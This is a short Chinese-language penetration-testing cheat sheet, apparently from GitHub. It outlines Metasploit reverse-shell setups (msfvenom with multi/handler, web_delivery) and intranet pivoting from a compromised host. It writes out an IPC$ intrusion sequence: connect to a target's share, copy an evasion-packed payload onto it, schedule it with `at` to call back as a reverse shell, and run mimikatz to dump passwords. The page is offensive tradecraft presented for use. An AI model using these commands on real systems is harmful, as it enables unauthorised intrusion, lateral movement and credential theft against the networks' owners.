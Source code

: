 #### 反弹Shell
```bash
### 第一种(这个监听更综合一点)： use exploit/multi/hander
# 1.msfvenom生成程序
# 2.使用handler执行exp
# 3.在目标机器运行msfvenom生成程序
# 4.返回session



### 第二种： use exploit/multi/script/web_delivery
# 1.使用web_delivery返回脚本执行并加载exp
# 2.在目标机器运行脚本
# 3.返回session

# Note: 这里要使用的payload与上面使用生成器生成的名字要一致
```





----------------------------------

## 一些小思路

#### 信息搜集
当拿下第一天内网主机的权限(提权不了时)，就要以此服务器为跳板攻击其他服务器

先进行网络/用户组/DC等的收集


###### 获取另外一台服务器权限
**若权限不够导致不能直接攻击域服务器**
- 使用meterpreter当前拥有的权限添加到内网路由，进行弱口令扫描
- 用Powershell对内网进行扫描
- 架设Socks4a, 然后socks会自动进行内网扫描
- 利用当前权限进行内网IPC$渗透
- 其他

通过分析，我们输入`net view`, 发现列举的机器选择一个和我们机器名相似的服务器试，成功率一般很高`net use \\WIN7_TEST2\c$`


使用经典的`IPC$入侵`（通过win默认启动的ipc共享来获得计算机控制权）：
```bash
net use \192.168.0.112\ipc$   # 连接这个ip的ipc共享
copy srv.exe \192.168.0.112\ipc$  # 复制srv(免杀的payload)到目标
net time \192.168.0.112  # 查看时间
at \192.168.0.112 18:18 srv.exe    # 用at命令在18点18分启动srv.exe (这里设置的时间要比主机时间快)
# 如果没有 at命令，试试新的计划任务命令： schtask 
# 回到msf的handler进行监听，到时间会反弹shell
然后进入这个新的主机，查看包括权限在内的信息, 也可以mimikatz抓密码: run /post/windows/gather/mimikatz
也可以上传对应位数的mimikatz到该主机 upload /home/x64.exe c:\
shell    # 进入到目标的shell，再执行

```
